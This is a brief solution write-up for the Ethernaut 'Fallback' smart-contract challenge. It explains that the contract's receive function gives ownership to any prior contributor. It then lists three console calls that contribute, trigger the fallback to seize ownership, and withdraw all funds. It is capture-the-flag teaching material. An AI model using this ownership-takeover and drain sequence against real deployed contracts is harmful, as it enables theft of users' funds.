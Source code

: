 # Challenge: Fallback

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

# Solution

Ultimately, to drain the function we need to call the withdraw function, however only the owner can call this, therefore we need to become the owner

The receive function makes you the owner, therefore you need to trigger this function. However you can only trigger it if you are a contributor. So contribute first with

Await contract.contribute({value: 10e12})

Then send ether to contract (only need msg.value greater than 1, so here 1 Wei)

Await contract.sendTransaction({value: 1})

Finally, we can withdraw all the funds with

Await contract.withdraw()
